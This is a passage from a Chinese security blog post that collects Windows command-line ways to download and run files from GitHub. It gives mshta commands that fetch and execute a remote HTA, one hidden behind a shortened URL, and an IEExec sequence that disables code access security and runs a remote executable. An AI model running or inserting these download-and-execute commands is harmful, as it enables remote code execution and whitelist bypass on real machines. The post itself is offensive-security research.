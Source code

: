 修改脚本，上传至github

命令如下：

```
mshta https://3gstudent.github.io/test/downloadexec2.hta
```

经过测试，该方法可用

使用短地址

有趣的是 http://dwz.cn/ 不支持该域名

换一个短地址网站 http://sina.lt/

生成短地址，最终命令为：

```
mshta http://t.cn/RYUQyF8
```

最终实现的最短字符长度为25

## 0x04 补充

------

### 1、IEExec

需要管理员权限

```
cd C:\Windows\Microsoft.NET\Framework\v2.0.50727\
caspol -s off
IEExec http://github.com/3gstudent/test/raw/master/putty.exe
```

**注：**

exe需要满足特定格式

详情可参考：

https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

**注：**

我在Win7下复现失败

## 0x05 小结

------

本文对通过cmd实现从github下载文件的方法做了汇总，最短的实现方式为`mshta http://t.cn/RYUQyF8`

实现的最短字符长度为25

------

[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)